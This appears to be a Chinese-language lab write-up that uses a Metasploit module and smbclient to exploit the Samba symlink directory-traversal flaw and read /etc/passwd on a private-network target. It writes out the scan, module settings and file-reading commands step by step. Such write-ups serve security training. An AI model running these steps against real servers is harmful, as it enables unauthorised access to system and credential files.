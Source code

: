 ```yaml
---
title: sysmlink漏洞
date: 2021-12-20 16:32:26
tags: sysmlink msf
---
```


## sysmlink 目录遍历漏洞

### 利用sysmlink漏洞读取目标主机的passwd文件内容

#### 原理：Samba是一套实现SMB（server messages block）协议，跨平台进行文件共享和打印共享服务的程序，samba的sambd默认配置在可写文件共享时，存在目录遍历漏洞，远程用户可以通过smbclient端使用一个对称命，创建一个包含..的目录遍历符的软连接 ，可以进行目录遍历以及访问任意文件。

### 过程：

使用nmap -sV ip 扫描主机，确认开放445，139端口且安装了samba服务，版本为3

![image-20211220165606561](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220165606561.png)

命令行输入search samba，搜索samba的相关工具和载荷。

![image-20211220173445099](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173445099.png)

终端中输入use auxiliary/admin/smb/samba_symlink_traversal，启用漏洞利用模块

输入info，”yes”表示必须要填写的信息

![image-20211220173527544](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173527544.png)

输入set RHOST 192.168.1.3和set SMBSHARE tmp，设置主机ip地址和SAM可写文件

输入exploit开始攻击

![image-20211220173602852](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173602852.png)

新建终端，输入smbclient //192.168.1.3/tmp，直接回车，无密码

输入cd rootfs,进入rootfs目录，输入ls，列出目录

![image-20211220173635907](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173635907.png)

输入more /etc/passwd

![image-20211220173656794](https://gitee.com/oxchang/img-host/raw/master/sysmlink漏洞/image-20211220173656794-16399930170041.png)

此实验完成
